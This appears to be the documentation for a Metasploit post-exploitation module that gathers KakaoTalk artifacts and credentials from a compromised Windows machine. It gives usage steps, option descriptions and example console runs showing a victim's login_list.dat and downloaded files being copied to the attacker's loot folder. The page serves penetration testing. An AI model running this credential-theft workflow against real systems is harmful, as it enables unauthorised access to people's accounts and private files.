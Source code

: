 ## Module Description

This post-exploitation module gathers artifacts found on KakaoTalk related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/kakaotalk
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053411_default_192.168.56.106_Kakaologin_list._899884.dat

[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053412_default_192.168.56.106_EXTRACTIONlogin__547610.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053412_default_192.168.56.106_KakaoAppleEvent._605437.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```

### Verbose Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Processing C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_Kakaologin_list._746567.dat

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053709_default_192.168.56.106_EXTRACTIONlogin__448569.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Processing C:\Users\IEUser\Documents\KakaoTalk Downloads
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_KakaoAppleEvent._975441.bin

[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

